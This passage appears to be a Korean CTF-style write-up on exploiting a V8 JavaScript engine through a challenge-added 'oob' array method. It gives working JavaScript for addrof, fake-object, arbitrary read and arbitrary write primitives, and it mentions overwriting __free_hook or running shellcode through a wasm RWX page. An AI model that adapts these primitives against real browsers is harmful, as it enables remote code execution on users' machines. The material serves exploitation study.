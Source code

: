 float array map을 object array map으로 변경하고 해당 float array를 리턴하는 코드이다. 이걸 이용하면 aar을 할 수 있다.

```javascript
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function aar(addr) {
    if (addr % 2n == 0)
   	    addr += 1n;

    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    return ftoi(fake[0]);
}
```

4개의 요소를 가지는 배열을 만들고 첫 번쨰 요소에는 float array map을 넣는다. 그리고 aar 의 인자로 읽고 싶은 주소를 넘기고, addrof(arb_rw_arr) - 0x20의 주소를 fake object로 만든다. 왜 - 0x20이냐하면 4개의 요소가 있기 때문에 0x20 만큼 빼주어야 fake obj가 위치하는 주소가 된다. 그리고 3번째에 addr - 0x10을 해주는데, 왜 냐면 여기가 elements 부분인데 elements가 가리키는 주소는 map이고 해당 주소에 0x10을 더해야 값이 나오기 때문이다. 그러면 즉 addr - 0x10 + 0x10에 접근하게 되고 addr의 주소가 가진 값을 얻을 수 있다.

```javascript
function aaw_init(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}
```

aaw 인데, aar 함수랑 큰 차이는 없다. 그런데 저 addr을 ArrayBuffer로 생성한 buf의 주소를 넣어주고 그 주소로부터 0x20 위치에 val 주소를 쓰게 되면 dataview를 통해서 해당 영역에 접근할 수 있다.

그 뒤론 그냥 리눅스 익스플로잇이랑 똑같은데, 보호기법이 다 걸려있어서 __free_hook을 system으로 덮으면 된다. 혹은 wasm을 이용해 rwx를 만들어서 쉘코드를 실행시키는 방법이 있다.

```javascript
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

var obj = {"A": 1};
var obj_arr = [obj];
var float_arr = [1.1, 2.2, 3.3, 4.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;
    obj_arr.oob(float_arr_map);
    let addr = obj_arr[0];
    obj_arr.oob(obj_arr_map);

    return ftoi(addr);
}
```